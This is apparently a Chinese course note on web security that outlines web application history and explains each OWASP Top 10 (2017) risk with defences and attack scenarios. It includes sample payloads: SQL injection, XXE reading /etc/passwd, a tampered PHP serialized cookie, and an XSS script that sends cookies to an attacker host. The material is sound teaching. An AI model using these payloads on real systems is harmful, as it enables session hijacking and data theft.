


# Web 攻防技术1 —— Web发展历史与安全风险

本讲主要内容：
- Web 应用程序的发展历程
- Web 应用程序的安全问题
- Web 防护机制

## 1 Web应用程序的发展历程

可分为三个阶段：

### 1.1 静态Web系统

早期，以静态Web站点构成，内容主要为静态Web文档，即html文档。


#### 1.1.1 技术构成：

- URL 统一资源定位符
- HTTP 协议
- HTML 文档
- Browser 浏览器
- Web Server 服务器

### 1.2 动态Web系统

Html表单、服务器脚本与数据库有机结合，形成了按需加载内容的动态Web系统。


#### 1.2.1 技术构成：

不仅包括：
- URL 统一资源定位符
- HTTP 协议
- HTML 文档
- Browser/Client 浏览器/客户端
- Web Server 服务器

更多的：
- 服务器脚本（jsp、php、asp）
- 页面脚本（JavaScript）
- 层次样式表 （CSS）
- 数据库 （Mysql、Oracle、Ms SQL Server、DB2...）

下图，显示了典型动态web的技术架构。



### 1.3 富互联网应用（RIA Web ，Rich Web application）

随着技术的进步，如今的Web页面拥有很多之前不曾有的丰富功能，与普通的桌面应用相差无几，这类Web系统被称为富互联网应用或 RIA Web。

RIA Web与传统Web的区别：


RIA 的基本框架：


#### 1.3.1 技术构成：

不仅包括：
- URL 统一资源定位符
- HTTP 协议
- HTML 文档
- Browser/Client 浏览器/客户端
- Web Server 服务器
- 服务器脚本（jsp、php、asp）
- 页面脚本（JavaScript）
- 层次样式表 （CSS）
- 数据库 （Mysql、Oracle、Ms SQL Server、DB2...）

还包括：
- Web 2.0 特性
- HTML5特性
- Flash、Java小程序、JavaFX、Silverlight等图形化工具
- 支持AJAX的各种框架：
  - AngularJS
  - jQuery
  - Mootools
  - Dojo
  - ExtJS
  - Google Web Toolkit
  - JavascriptMVC
  - .NET Framework
  - Unity
  - Prototype 
  - Apache Wicket 
  - ASP.NET AJAX 
  - DWR（Direct Web Remoting） 
  - Spry Framework 
  - ...


RIA的技术架构：


---

## 2 Web应用程序的安全问题

没有绝对安全的系统，Web系统同样存在着大量安全问题。



OWASP（国际知名的安全组织）提供了一个Web应用安全的适合和全面的框架和过程。OWASP提高电子商务安全的主要功能如下：
- 十大Web应用安全漏洞
- 开发指南
- 代码审计指南
- 测试指南
- OWASP移动安全

### 2.1 OWASP TOP 10 总体介绍

OWASP 每年都会总结10大最关键的Web应用安全风险。


2017年的十大Web安全风险是：

- A1-注入
- A2-失效的身份认证
- A3-敏感数据泄露
- A4-XML外部实体（XXE）
- A5-失效的访问控制
- A6-安全配置错误
- A7-跨站脚本（XSS）
- A8-不安全的反序列化
- A9-使用含有已知漏洞的组件
- A10-不足的日志记录和监控


### 2.2 A1-注入

注入往往是应用程序缺少对输入进行安全性检查所引起的，攻击者把一些包含指令的数据发送给解释器，解释器会把收到的数据转换成指令执行。

常见的注入包括：SQL注入，OS Shell，LDAP，XPath，Hibernate等等，其中SQL注入尤为常见。


#### 2.2.1 你的Web应用脆弱么？

当您的应用存在下列情况时易受到攻击：

- 用户提供的数据没有经过应用程序的验证、过滤或净化。
- 动态查询语句或非参数化的调用，在没有上下文感知转义的情况下，被用于解释器。
- 在ORM搜索参数中使用了恶意数据，这样搜索就获得包含敏感或未授权的数据。
- 恶意数据直接被使用或连接，诸如SQL语句或命令在动态查询语句、命令或存储过程中包含结构和恶意数据。
  
一些常见的注入，包括：SQL、OS命令、ORM、LDAP和表达式语言（EL）或OGNL注入。所有解释器的概念都是相同的。代码评审是最有效的检测应用程序的注入风险的办法之一，紧随其后的是对所有参数、字段、头、cookie、JSON和XML数据输入的彻底的DAST扫描。组织可以将SAST和DAST工具添加到CI/CD过程中，以便于在生产部署之前对现有或新检查的代码进行注入问题的预警。


#### 2.2.2 如何防止？

防止注入漏洞需要将数据与命令语句、查询语句分隔开来。

- 最佳选择是使用安全的API，完全避免使用解释器，或提供参数化界面的接口，或迁移到ORM或实体框架。
  - 注意：当参数化时，存储过程仍然可以引入SQL注入，如果PL/SQL或T-SQL将查询和数据连接在一起，或者执行带有立即执行或exec()的恶意数据。

- 使用正确的或“白名单”的具有恰当规范化的输入验证方法同样会有助于防止注入攻击，但这不是一个完整的防御，因为许多应用程序在输入中需要特殊字符，例如文本区域或移动应用程序的API。

- 对于任何剩余的动态查询，可以使用该解释器的特定转义语法转义特殊字符。OWASP的Java Encoder和类似的库提供了这样的转义例程。
  - 注意：SQL结构，比如：表名、列名等无法转义，因此用户提供的结构名是非常危险的。这是编写软件中的一个常见问题。
- 在查询中使用LIMIT和其他SQL控件，以防止在SQL注入时大量地泄露记录。

#### 2.2.3 攻击案例场景


```
# 无安全意识的程序员设计的SQL

String query =＂SELECT account_balance FROM user_data WHERE user_name =＂+ request.getParameter(＂customerName＂);

# 黑客注入后的SQL
String query =“SELECT account_balance FROM user_data WHERE user_name =”+ request.getParameter(“customerName”) or ‘1’ =‘1


```
### 2.3 A2-失效的身份认证


通过错误使用应用程序的身份认证和会话管理功能，攻击者能够破译密码、密钥或会话令牌，或者利用其它开发缺陷来暂时性或永久性冒充其他用户的身份。

应用会话超时设置不正确。用户使用公共计算机访问应用程序。用户直接关闭浏览器选项卡就离开，而不是选择“注销”。攻击者一小时后使用同一个浏览器浏览网页，而当前用户状态仍然是经过身份验证的。

通过错误使用应用程序的身份认证和会话管理功能，攻击者能够破译密码、密钥或会话令牌，或者利用其它开发缺陷来暂时性或永久性冒充其他用户的身份。

#### 2.3.1 应用程序脆弱吗？

确认用户的身份、身份验证和会话管理非常重要，这些措施可用于将恶意的未经身份验证的攻击者与授权用户进行分离。

如果您的应用程序存在如下问题，那么可能存在身份验证的脆弱性：
- 允许凭证填充（撞库），这使得攻击者获得有效用户名和密码的列表。
- 允许暴力破解或其他自动攻击。
- 允许默认的、弱的或众所周知的密码，例如“Password1”或“admin/admin”。
- 使用弱的或失效的验证凭证，忘记密码程序，例如“基于知识的答案”，这是不安全的。
- 使用明文、加密或弱散列密码（参见：A3:2017-敏感数据泄露）。
- 缺少或失效的多因素身份验证。
- 暴露URL中的会话ID（例如URL重写）。
- 在成功登录后不会更新会话ID。
- 不正确地使会话ID失效。当用户不活跃的时候，用户会话或认证令牌（特别是单点登录（SSO）令牌）没有正确注销或失效。

#### 2.3.2 如何防止？
- 在可能的情况下，实现多因素身份验证，以防止自动、凭证填充、暴力破解和被盗凭据再利用攻击。
- 不要使用发送或部署默认的凭证，特别是管理员用户。
- 执行弱密码检查，例如测试新或变更的密码，以纠正“排名前10000个弱密码” 列表。
- 将密码长度、复杂性和循环策略与NIST-800-63 B的指导方针的5.1.1章节-记住秘密，或其他现代的基于证据的密码策略相一致。
- 确认注册、凭据恢复和API路径，通过对所有输出结果使用相同的消息，用以抵御账户枚举攻击。
- 限制或逐渐延迟失败的登录尝试。记录所有失败信息并在凭据填充、暴力破解或其他攻击被检测时提醒管理员。
- 使用服务器端安全的内置会话管理器，在登录后生成高度复杂的新随机会话ID。会话ID不能在URL中，可以安全地存储和当登出、闲置、绝对超时后使其失效。

#### 2.3.3 攻击案例场景

场景#1：

凭证填充（使用已知密码的列表）是常见的攻击行为。如果应用程序不限制身份验证尝试，则可以将应用程序用作密码oracle，以确定凭证是否有效。

场景#2：

大多数身份验证攻击都是由于使用密码作为唯一的因素。依据最佳实践，最新的密码轮换和复杂性要求鼓励用户使用、重用以及重用弱密码。建议组织在NIST-800-63中停止这些实践，并使用多因素身份验证。

场景#3：

应用会话超时设置不正确。用户使用公共计算机访问应用程序。用户直接关闭浏览器选项卡就离开，而不是选择“注销”。攻击者一小时后使用同一个浏览器浏览网页，而当前用户状态仍然是经过身份验证的。

### 2.4 A3-敏感信息泄露

许多Web应用程序和API都无法正确保护敏感数据，例如：财务数据、医疗数据等。
我们需要对敏感数据加密，这些数据包括：传输过程中的数据、存储的数据以及浏览器的交互数据。

一个网站上对所有网页没有使用或强制使用TLS，或者使用弱加密。攻击者通过监测网络流量（如：不安全的无线网络），将网络连接从HTTPS降级到HTTP，就可以截取请求并窃取用户会话cookie。

#### 2.4.1 我的敏感信息泄露脆弱么?

首先你需要确认的是哪些数据是敏感数据（包含：传输过程中的数据、存储数据）而需要被加密。例如：密码、信用卡卡号、医疗记录、个人信息应该被加密，特别是欧盟《通用数据保护条例》（GDPR）、地方 “隐私法律或条例”以及“金融数据保护法律或条例”中规定需要加密的数据。

对于这些数据，要确定：
- 无论内部数据还是外部数据，传输时是否是明文传输？
  - 在互联网中传输明文数据是非常危险的，无论是从负载平衡器传输到Web服务器，还是从Web服务器传输到终端系统。
- 当数据被长期存储时，无论存储在哪里，它们是否都被加密，包含备份数据？
无论默认条件还是源代码中，是否还在使用任何旧的或脆弱的加密算法？（参见“A6:2017 安全配置错误”）
- 是否使用默认加密密钥，生成或重复使用脆弱的加密密钥，或者缺少恰当的密钥管理或密钥回转？
- 是否强制加密敏感数据，例如：用户代理（如：浏览器）指令和传输协议是否被加密？

#### 2.4.2 如何防止?

对一些需要加密的敏感数据，应该起码做到以下几点：
- 对系统处理、存储或传输的数据分类，并根据分类进行访问控制。
- 熟悉与敏感数据保护相关的法律和条例，并根据每项法规要求保护敏感数据。
- 对于没必要存放的、重要的敏感数据，应当尽快清除，或者通PCI DSS标记或拦截。未存储的数据不能被窃取。
- 确保存储的所有敏感数据被加密。
- 确保传输过程中的数据被加密，如：使用TLC。确保数据加密被强制执行。
- 确保使用了最新的、强大的标准算法或密码、参数、协议和密匙，并且密钥管理到位。
- 确保使用密码专用算法存储密码。
- 禁止缓存对包含敏感数据的响应。
- 单独验证每个安全配置项的有效性。

#### 2.4.3 攻击案例场景

场景 #1： 

一个应用程序使用自动化的数据加密系统加密信用卡信息，并存储在数据库中。但是，当数据被检索时被自动解密，这就使得SQL注入漏洞能够以明文形式获得所有信用卡考号。

场景 #2：

一个网站上对所有网页没有使用或强制使用TLS，或者使用弱加密。攻击者只需监测网络流量、跟踪或拦截TLS（例如：开放的无线网络），就可以窃取用户会话cookie。之后，攻击者可以复制用户cookie并成功劫持经过认证的用户会话、访问或修改用户个人信息。除此之外，攻击者还可以更改所有传输过程中的数据，例如：转款的收据。

场景 #3：

密码数据库使用未加盐的哈希算法去存储每个人的密码。一个文件上传漏洞使黑客能够获取密码文件。所有这些未加盐哈希的密码通过彩虹表暴力破解方式破解。


### 2.5 A4-XML外部处理器漏洞（XXE）

许多较早的或配置错误的XML处理器评估了XML文件中的外部实体引用。默认情况下，许多旧的XML处理器能够对外部实体、XML进程中被引用和评估的URI进行规范。SAST 工具可以通过检查依赖项和安全配置来发现XXE缺陷。

攻击者可以利用外部实体窃取使用URI文件处理器的内部文件和共享文件、监听内部扫描端口、执行远程代码和实施拒绝服务攻击。

XXE缺陷可用于提取数据、执行远程服务器请求、扫描内部系统、执行拒绝服务攻击和其他攻击。业务影响取决于所有受影响的应用程序和数据保护需求。

```
# 攻击者尝试从服务端提取数据： 
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

```

#### 2.5.1 我的应用中的XXE脆弱么?

应用程序和特别是基于XML的Web服务或向下集成，可能在以下方面容易受到攻击：
- 您的应用程序直接接受XML文件或者接受XML文件上传，特别是来自不受信任源的文件，或者将不受信任的数据插入XML文件，并提交给XML处理器解析。
- 在应用程序或基于Web服务的SOA P中，所有XML处理器都启用了文档类型定义（DTDs）。因为禁用DTD进程的确切机制因处理器而不同，更多资料请参考：《OWASP XXE Prevention Cheat Sheet》。
- 如果您的应用程序使用第1.2版之前的SOAP，并将XML实体传递到SOAP框架，那么它可能受到XXE攻击。
- SAST 工具可以监测应用程序源代码中的XXE缺陷，尽管对大型的、复杂的应用程序执行手动代码审查是许多企业组织的最佳选择。
- 存在XXE缺陷的应用程序更容易受到拒绝服务攻击。

#### 2.5.2 如何防止?

开发人员培训是识别和减少XXE缺陷的关键，此外，防止XXE 缺陷还需要：
- 根据《OWASP XXE Prevention Cheat Sheet 》，在应用程序的所有XML解析器中禁用XML外部实体和DTD进程。
- 实施积极的（“白名单”）输入验证、过滤和清理，以防止在XML文档、标题或节点中出现恶意数据。
- 验证XML或XSL文件上传功能是否使用XSD验证或其他类似验证方法来验证上传的XML文件。
- 及时修复或更新应用程序或底层操作系统所使用的XML处理器和库。使用依赖检查程序对必要库和组件的风险管理至关重要，而且需要检查所有应用程序和下游集成中的库和组件。
- 将SOAP升级到最新版本。
- 如果无法实现这些控制，请考虑使用虚拟修复程序、API安全网关或WAFs来检测、监控和防止XXE攻击。

#### 2.5.3 攻击案例场景

大量XXE缺陷已经被发现并被公开，这些缺陷包括嵌入式设备的XXE缺陷。 XXE缺陷存在于许多意想不到的地方，这些地方包括深嵌套的依赖项。最简单的方法是上传可被接受的恶意XML文件：

场景 #1：攻击者尝试从服务端提取数据：
```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEM ENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

场景 #2：攻击者通过将上面的实体行更改为以下内容来探测服务器的专用网络：
```
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
```

场景 #3:：攻击者通过大量文件执行拒绝服务攻击：
```
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
```


### 2.6 A5-失效的访问控制

A5指未对通过身份验证的用户实施恰当的访问控制。攻击者可以利用这些缺陷访问未经授权的功能或数据，例如：访问其他用户的帐户、查看敏感文件、修改其他用户的数据、更改访问权限等。

由于缺乏自动化的检测、缺乏有效的功能测试，因而访问控制缺陷很常见。访问控制检测通常不适用于自动化的静态或动态测试。攻击者充当用户或管理员、使用特权功能的用户、或创建、访问、更新或删除每条记录。

SAST （Static Application Security Testing） 和 DAST （Dynamic Application Security Testing） 工具可以检测到访问控制的缺失，但不能验证其功能是否正常。访问控制可通过手动方式检测，或在某些特定框架下通过自动化检测访问控制缺失。

#### 2.6.1 我的应用存在失效的访问控制问题么？

常见的访问控制脆弱点包括:
- 通过修改 URL、内部应用程序状态或 HTML 页面绕过访问控制检查，或简单地使用自定义的 API 攻击工具。
- 允许将主键更改为其他用户的记录，例如查看或编辑他人的帐户。
- 特权提升。在不登录的情况下假扮用户，或以用户身份登录时充当管理员。
- 元数据操作 ，如重放或篡改 JWT(JSON Web Tokens) 访问控制令牌，或作以提升权限的cookie 或隐藏字段。
- CORS（跨域资源共享）配置错误允许未授权的API访问。https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS
- 以未通过身份验证的用户身份强制浏览的通过身份验证时才能看到的页面、或作为标准用户访问具有相关权限的页面、或API没有对POST、PUT和DELETE强制执行访问控制。

#### 2.6.2 如何防止？

访问控制只有在受信服务器端代码或没有服务器的 API 中有效，这样这样攻击者才无法修改访问控制检查或元数据。
- 除公有资源外，默认情况下拒绝访问。
- 使用一次性的访问控制机制，并在整个应用程序中不断重用它们。
- 建立访问控制模型以强制执行所有权记录，而不是接受用户创建、读取、更新或删除的任何记录。
- 域访问控制对每个应用程序都是唯一的，但业务限制要求应由域模型强制执行。
- 禁用 Web服务器目录列表，并确保文件元数据（如：git）不存在于 Web的根目录中。
- 记录失败的访问控制，并在适当时向管理员告警（如：重复故障）。
- 对API和控制器的访问进行速率限制，以最大限度地降低自动化攻击工具的危害。

开发人员和 QA人员应包括功能访问控制单元和集成测试。

#### 2.6.3 攻击案例场景

场景 #1：应用程序在访问帐户信息的 SQL调用中使用了未经验证的数据：
```
pstmt.setString(1，request.getParameter("acct"));
ResultSet results = pstmt.executeQuery( );
```

攻击者只需修改浏览器中的“acct”参数即可发送他们想要的任何帐号信息。如果没有正确验证，攻击者可以访问任何用户的帐户。
```http://example.com/app/accountInfo?acct=notmyacct```


场景 #2: 攻击者仅强制浏览目标URL。管理员权限是访问管理页面所必需的。

```
http://example.com/app/getappInfo
http://example.com/app/admin_getappInfo
```

如果一个未经身份验证的用户可以访问任何页面，那么这是一个缺陷。如果一个非管理员权限的用户可以访问管理页面，那么这同样也是一个缺陷。

### 2.7 A6-安全配置错误

安全配置错误是最常见的安全问题，这通常是由于不安全的默认配置、不完整的临时配置、开源云存储、错误的 HTTP 标头配置以及包含敏感信息的详细错误信息所造成的。

安全配置错误可以发生在一个应用程序堆栈的任何层面，包括：
- OS平台
- Web服务器
- 应用服务器
- 数据库
- 框架
- 自定义代码


攻击者能够通过访问下列内容来取得对系统的未授权的访问:
- 默认账户
- 不再使用的页面
- 未修复的缺陷
- 未保护的文件和目录等

这些漏洞使攻击者能经常访问一些未授权的系统数据或功能。有时，这些漏洞导致系统的完全攻破。开发人员和系统管理员需共同努力，以确保整个堆栈的正确配置。自动扫描器可用于检测未安装的补丁、错误的配置、默认帐户的使用、不必要的服务等。

#### 2.7.1 我的安全配置有错误么？脆弱吗？

你的应用程序是否在应用程序栈的任何部分缺少适当的安全加固？

这些措施包括：
- 是否使用或安装了不必要的功能（例如，端口、服务、网页、帐户、权限?
- 默认帐户的密码是否仍然可用或没有更改?
- 你的错误处理机制是否防止堆栈跟踪和其他含有大量的错误信息被泄露?
- 你是否还在已经升级了的软件上使用老的配置？你是否还继续保
持对已过时的后向兼容性的支持？
- 对你的应用服务器和应用框架是否进行了安全配置（比如：
Struts、Spring、ASP.NET）和库文件、数据库等，没有进行安全
配置?
- 对于Web应用程序，服务端是否没有将安全指示发送到客户端（如，HSTS ）或这些指示没有设成足够安全？
- 你的应用软件是否已过期？（参见A9:使用包含已知漏洞的组件）

缺少一个体系的、可重复的应用程序安全配置的过程，系统将处于高风险中。

#### 2.7.2 如何防止?

注意以下几个方面:
- 加固过程应该是一个快速、方便、可重复的加固过程。
- 开发、质量保证和生产环境都应该配置相同（每个环境中使用不同的密码）。这个过程应该是自动化的，以尽量减少安装一个新安全环境的耗费。
- 移除或不要安装任何不需要的功能、组件、文档和示例。
- 移除不适用的依赖和框架。
- 一个能及时有效修补已安装软件或部件的更新过程。这需要包括所有框架。依赖、组件和库（详见A9）。
- 一个能在组件之间提供有效的分离和安全性的强大应用程序架构。
- 在所有环境中能够正确安全配置和设置的自动化过程。

#### 2.7.3 攻击案例场景

场景#1：

应用程序服务器管理员控制台自动安装后没有被删除。而默认帐户也没有被改变。

攻击者在你的服务器上发现了标准的管理员页面，通过默认密码登录，从而接管了你的服务器。

场景#2：

目录列表在你的服务器上未被禁用。

攻击者发现只需列出目录，她就可以找到你服务器上的任意文件。

攻击者找到并下载所有已编译的Java类，她通过反编译获得了所有你的自定义代码。然后，她在你的应用程序中找到一个访问控制的严重漏洞。

场景#3：

应用服务器配置允许堆栈跟踪信息返回给用户，这样就暴露了潜在的漏洞。如已知的有漏洞的框架版本。

场景#4：

应用服务器自带的示例应用程序没有从您的生产服务器中删除。该示例应用有已知安全漏洞，攻击者可以利用这些漏洞
破坏您的服务器。

场景#5：

默认配置或从别处拷贝来的老配置项激活了一个老的、含漏洞的协议或安全选项。这些是可被攻击者或恶意软件利用的。

### 2.8 A7-跨站脚本（XSS）

XSS 是指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS 的分类：存储式跨站脚本攻击、反射跨站脚本攻击、基于DOM的XSS.

XSS是OWASP Top10中第二普遍的安全问题，存在于近三分之二的应用中。自动化工具能自动发现一些XSS问题，特别是在一些成熟的技术中，如：PHP、J2EE或JSP、ASP.NET。

#### 2.8.1 我的应用中存在跨站脚本（XSS）脆弱么?

存在三种XSS类型：
##### 反射式XSS：

你的应用中包含未验证的或未编码的用户输入，并作为HTML或者其他未启用CSP（Content Security Policy）头的一部分输出。成功的攻击将在受害者的浏览器上执行任意HTML或JS代码。

一般而言，用户需要点击链接或与其他攻击者控制页面做交互。

##### 存储式XSS：

你的应用或者API将未净化的用户输入存储下来了，并在后期在其他用户或者管理员的页面展示出来。

存储型XSS一般被认为是高危或严重的风险。

##### 基于DOM的XSS：

会动态的将攻击者可控的内容加入页面的JavaScript框架、单页面程序或API存在这种类型的漏洞。理想的来说，你应该避免将攻击者可控的数据发送给不安全的JavaScript API。

典型的XSS攻击可导致:盗取session、账户、绕过MFA、DIV替换、对用户浏览器的攻击（例如：恶意软件下载、键盘记录）以及其他用户侧的攻击。
 
#### 2.8.2 如何防止？

防止XSS需要将不可信数据与动态的浏览器内容区分开。

- 从设计源头考虑解决XSS问题，例如使用能够自动编码的框架，如：Ruby 3.0或 React JS。
- 为了避免服务器XSS，最好的办法是根据数据将要置于的HTML上下文（包括：主体、属性、JavaScript、CSS或URL）对所有的不可信数据进行恰当的排除 （escape） 。更多关于数据转义
技术的信息见：《OWASP XSS Prevention Cheat Sheet》 。
- 为了避免客户端XSS，最好的选择是避免传递不受信任的数据到JavaScript和可以生成活动内容的其他浏览器A PI。如果这种情况不能避免，可以采用《OWASP DOM based XSS Prevention
Cheat Sheet》描述的类似上下文敏感的转义技术应用于浏览器API。https://github.com/OWASP/CheatSheetSeries
- 使用内容安全策略（ CSP）是对抗XSS的深度防御策略。https://www.w3.org/TR/CSP2/ 和 https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

#### 2.8.3 攻击案例场景

应用程序在下面HTML代码段的构造中使用未经验证或未排除的不可信的数据：
```（ String ） page += "<input name='creditcard' type=' TEXT‘value='" + request.getParameter（"CC"） + "'>";```

攻击者在浏览器中修改“CC” 参数为如下值：

```'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.```

这个攻击导致受害者的会话ID被发送到攻击者的网站，使得攻击者能够劫持用户当前会话。

请注意攻击者同样能使用跨站脚本攻破应用程序可能使用的任何跨站请求伪造（CSRF）防御机制。CSRF的详细情况见2013年版中的A8项

### 2.9 A8-不安全的反序列化

不安全的反序列化会导致远程代码执行。即使反序列化缺陷不会导致远程代码执行，攻击者也可以利用它们来执行攻击，包括：重播攻击、注入攻击和特权升级攻击。

对反序列化的利用是有点困难的，因为在不更改或调整底层代码的情况下，货架漏洞（Shelf Exploit）很少起作用。但反序列化缺陷的影响不能被低估。它们可能导致远程代码执行攻击，这是
可能发生的最严重的攻击之一。

#### 2.9.1 我的应用存在反序列化漏洞吗？

分布式应用程序或那些需要在客户端或文件系统上存储状态的程序，可能正在使用对象序列化。具有公共侦听器或依赖于客户端维护状态的分布式应用程序，很可能允许对序列化数据进行篡改。

这种攻击可使用于二进制格式（如：Java 序列化），或基于文本的格式（如：Json.Net）。

应用程序和A PI在下列情况时很脆弱：
- 序列化机制允许创建任意数据类型；
- 有可用于将应用程序链接在一起的类，以在反序列化期间或之后改变应用程序行为，或者使用非预期的内容来影响应用程序行为；
- 应用程序或 API 接受并反序列化攻击者提供的恶意对象，或者应用程序使用了不具有恰当防篡改控制的系列化不透明客户端状态。
- 安全状态发送到缺失了完整性控制的不受信客户端，很容易受到反序列化的攻击。

#### 2.9.2 如何防止？

唯一安全的架构模式是不接受来自不受信源的序列化对象，或使用只允许原始数据类型的序列化媒体。

如果上述不可能的话：
- 对序列化对象执行完整性检查或加密，以防止恶意对象创建或数据篡改；
- 在创建对象之前强制执行严格的类型约束；通常，代码被期望成一组可定义的类。绕过这种技术的方法已经被证明；
- 隔离反序列化的代码，使其在非常低的特权环境（如：临时容器）中运行；
- 记录反序列化的例外情况和失败信息，如：传入的类型不是预期的类型，或者反序列处理引发的例外情况；
- 限制或监视来自于容器或服务器传入和传出的反序列化网络连接。
- 监视反序列化，当用户持续进行反序列化时，对用户进行警告。

#### 2.9.3 攻击案例场景

场景 #1：

一个React应用程序调用了一组Spring Boot微服务。作为功能性程序员，他们试图确保他们的代码是不可变的。他们提出的解决方法是序列化用户状态，并在每次请求时来回传递。

攻击者注意到了“R00”Java对象签名，并使用Java Serial Killer工具在应用服务器上获得远程代码执行。

场景 #2：

一个PHP论坛使用PHP对象序列化来保存一个“超级”cookie。该cookie包含了用户的用户ID、角色、密码哈希和其他状态：
```
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";
i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

攻击者更改序列化对象以授予自己为admin权限：
```
a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin";
i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
```

### 2.10 A9-使用含有已知漏洞的组件

大多数的应用和API都存在这些问题。因为大多数的开发团队并不会把及时更新组件/库作为他们的
工作重心。在很多情况下，开发者都不了解他们所使用的全部组件，更不用说组件的版本了。

此问题可被扫描器（例如Retire.js）或头部检查发现。但验证是否可被利用需要具体的攻击行为。

#### 2.10.1 我的应用中含有已知漏洞的组件么?

如果存在以下任意一条，可能会有问题：
- 如果你不知道所有在使用组件的版本（包括服务端和客户端）。这包括直接使用的组件或间接的依赖。
- 你软件系统的任一部分过时了。包括操作系统、Web/App服务器、DBMS、应用程序、API和所有的组件、运行环境和库。
- 如果你不知道您是否受到此威胁，要么您不研究此类信息或者您不做常规扫描。
- 如果您不及时修复或升级底层平台，框架和依赖关系。 可能发生的情况是，升级是每月或每季度才做的任务，这使得组织在这段时间内都受此已修复但未修补的漏洞的威胁。
- 如果您不对组件进行安全配置（参见“A6:2017 安全配置错误”）。

#### 2.10.2 如何防止?
软件项目应该遵循下面的流程:
- 移除不使用的依赖、不需要的功能、组件、文件和文档。
- 利用工具如 versions、DependencyCheck 、retire.js等来持续的记录客户端和服务器端以及它们的依赖库的版本信息；
- 对使用的组件持续监控如CVE 和 NVD等漏洞中心，可以使用自动化工具来完成此功能；
- 仅从官方渠道获取组件并且在有条件的情况下尽可能采用单一包来避免被恶意篡改的风险。
- 很多老的不再支持的库和组件并没有安全升级 这种情况下，可以考虑使用虚拟补丁技术去检测或保护。
  
每个组织都应该确保有应对监控、分类、升级或配置的计划。这些计划应对所有程序或集合的全生命周期都有效。

#### 2.10.3 攻击案例场景

很多时候组件都是以最高权限运行的，这使得组件里的缺陷可能导致各式各样的问题。这些缺陷可能是一些偶然的(如编码错误)也可能是蓄意的(如组件里的后门)。下面是一些发布具有可以被利用漏洞的组件：
- CVE-2017-5638，一个Struts2远程执行漏洞。 可在服务端远程执行代码，并已造成巨大的影响。
- 物联网 （IoT）设备一般而言是难以打补丁修复的。但修复的重要性很大。（例如：St. Jude pacemakers）。

有自动化的工具能帮助发现未打补丁的或配置不正确的系统。例如 ：Shodan IOT搜索引擎能榜之发现从2014年四月至今仍存在心脏出血漏洞的设备。

### 2.11 A10-不足的日志记录和监控

不足的日志记录和监控，以及事件响应缺失或无效的集成，使攻击者能够进一步攻击系统、保持持续性或转向更多系统，以及篡改、提取或销毁数据。

攻击者使用通用密码进行用户扫描并能获取所有使用此密码的账户。对于其他账户而言，将仅有一次失败的登陆尝试记录。一段时间以后，攻击者可以用另一个密码再次进行此活动。

对不足的日志记录及监控的利用几乎是每一个重大安全事件的温床。攻击者依靠监控的不足和响应的不及时来达成他们的目标而不被知晓。多数成功的攻击往往从弱点探测开始。允许这种探测会将攻击成功的可能性提高到近100%

#### 2.11.1 我是否受影响?

任何时候都可能发生日志记录不足，检测、监控和响应不足：
- 未记录可审计事件（如登录，登录失败和高价值事务）。
- 应用或API的日志对可以活动未做记录。
- 根据应用程序持有的数据的风险，警报阈值和响应升级不到位
或无效。

对于大型和高性能组织，缺乏积极的响应（例如：实时警报和响应活动（如：阻止Web应用程序，特别是API的自动攻击）的缺失），将使组织面临长期的风险。 响应不一定需要对攻击者可见。

只有应用程序和相关的基础架构、框架、服务层等可以检测并警告人类或工具以实时应对。

#### 2.11.2 我如何防护?

根据应用程序存储或处理的数据的风险：:
- 确保所有登录，访问控制失败，输入验证失败记录了足够的上下文，以识别可疑或恶意帐户，并为后期取证需要保存足够的时间。
- 确保高价值事务有完整性控制的审计跟踪，以防止篡改或删除，例如仅附加数据库表或类似内容。
